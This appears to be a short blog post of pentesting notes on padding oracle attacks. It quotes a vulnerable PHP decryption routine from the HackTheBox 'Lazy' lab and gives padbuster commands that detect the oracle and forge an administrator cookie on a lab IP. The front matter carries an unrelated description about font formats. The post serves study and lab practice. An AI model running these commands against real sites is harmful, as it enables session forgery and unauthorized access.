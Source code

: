 ```yaml
---
layout: post
title: Padding Oracle Attack
description: What is the difference between various font formats?
summary: What is the difference between various font formats?
tags: [web,crypto,foothold]
minute: 1
---
```

## Overview
CBD mode PKCS7 format uses padding to complete the block length when encrypting plaintext.

![](/assets/Padding%20Oracle%20Attack/padding.png)

Attacker can leverage this behaviour to get the plaintext by manipulating the ciphertext byte by byte in a trial and error fashion and observing whether the application will return error (invalid padding) or success (valid padding).

This kind of crypto may be safe but the real attack surface is on whether your app is returning error on invalid padding which will give an attacker chance to brute force the correct plaintext.

```php
// example file from HTB lazy
function decryptString($encryptedText, $passphrase) {
  $encrypted = base64_decode($encryptedText);
  $iv_size =  mcrypt_get_iv_size(MCRYPT_DES, MCRYPT_MODE_CBC);
  $iv = substr($encrypted,0,$iv_size);
  $dec = mcrypt_decrypt(MCRYPT_DES, $passphrase, substr($encrypted,$iv_size), MCRYPT_MODE_CBC, $iv);
  $str = pkcs5_unpad($dec);
  if ($str === false) {
    echo "Invalid padding"; // really? you want to be hacked?
    die();                  // maybe let's replace that or
  }                         // remove entirely?
  else {
    return $str;
  }
}
```

This is also a type of CCA or Chosen Ciphertext Attack.

## Details on ciphertext manipulation
Go to "The Theory" part of this [link](https://pentesterlab.com/exercises/padding_oracle/course).

## Detection
* Try manipulating cookie values. See if webapp will error response such as `invalid padding` or `500`,

## Exploitation
* Using padbuster

```bash
# installation
sudo apt-get install padbuster

# detection
padbuster http://10.10.10.10/index.php "RVJDQrwUdTRWJUVUeBKkEA==" 8 -encoding 0 -cookies "login=RVJDQrwUdTRWJUVUeBKkEA=="

# gets an admin cookie
padbuster http://10.10.10.10/index.php "RVJDQrwUdTRWJUVUeBKkEA==" 8 -encoding 0 -cookies "login=RVJDQrwUdTRWJUVUeBKkEA==" -plaintext "user=administrator"
```

* Using [bit flippingattack](https://0xdf.gitlab.io/2020/07/29/htb-lazy.html#path-2-bit-flip-attack). Here is another resource from [ippsec](https://www.youtube.com/watch?v=3VxZNflJqsw&t=460s) using Burp.

## References
* [Padding Oracle - HackTricks](https://book.hacktricks.xyz/cryptography/padding-oracle-priv#padding-oracle)
* [HTB Lazy](https://www.youtube.com/watch?v=3VxZNflJqsw)
* [Mathematical Explanation](https://www.youtube.com/watch?v=aH4DENMN_O4&t=873s)
* [The Padding Oracle Attack](https://robertheaton.com/2013/07/29/padding-oracle-attack/)
